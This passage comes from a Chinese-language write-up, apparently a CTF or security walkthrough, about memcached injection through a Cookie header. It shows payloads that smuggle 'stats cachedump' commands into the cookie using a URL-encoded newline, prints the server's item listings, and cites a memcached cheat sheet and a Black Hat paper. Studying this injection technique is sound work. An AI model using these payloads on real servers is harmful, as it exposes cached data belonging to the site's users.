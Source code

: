 我们可以看到每个class的编排

所以我们每一个都dump出来看看才好：

`Cookie: %0astats cachedump 1 1000`

返回为

`MemcacheError:ERROR ITEM key [1 b; 1441762228 s] ITEM 12345 [20 b; 1441494967 s] END`

当我遍历到class 3的时候：

```
Cookie: %0astats cachedump 3 1000    
MemcacheError:ERROR 
ITEM 3f063d8659f0f08c4454554294aca59bbe42cc6e11db23eb69f5a1c0a9486aa1 [19 b; 1442016274 s] 
ITEM 0e9d0aecea498b15ee63d38dd4664dcfc75be0846ec4baee931b45a04462eeab [20 b; 1441494967 s] 
ITEM 09cf27be606344f29bda74bd7c035e6d862c95025a2a6bb1785c8883ae65b18a [16 b; 1441494967 s] 
ITEM b33542ed3c8bf5c2c346e26aac28a10055fa6a50c4948873810798e9f4cfca98 [20 b; 1441494967 s] 
ITEM e391306f6481940ab3c796eb1253435b06e9a9357227de734b0ec3f58bd14d7f [19 b; 1442011213 s] 
ITEM c706b288065ad5c29153d8773c3e3be6e8a07408cdf4e0e40e97917896e43839 [19 b; 1442012877 s] 
ITEM a5e754e6e804bf7e49f8096242a6566cc337b06aa6c2dafda3f86edccf8cb4b3 [19 b; 1442011191 s] 
ITEM edf938c33d05ff9f8696415d5ef817014a5cc2906abe24576fdafe8ae58dde48 [19 b; 1442010879 s] 
ITEM 5f7d07e310e9fad574d0975741a9c05d0d75d7157ce9bb9546b7f58d940cee7a [19 b; 1442006048 s] 
ITEM 3d1a32800a501fe7387287ba4631ae9318206ef96083a29f35fd1ef42f7a85c5 [19 b; 1441998916 s] 

```

终于注入到我们所需要的class中去。

0x05 参考
=======

* * *

**Memcache cheat sheet**:[http://lzone.de/cheat-sheet/memcached](http://lzone.de/cheat-sheet/memcached)

**Memcached Injection**:[https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf](https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf)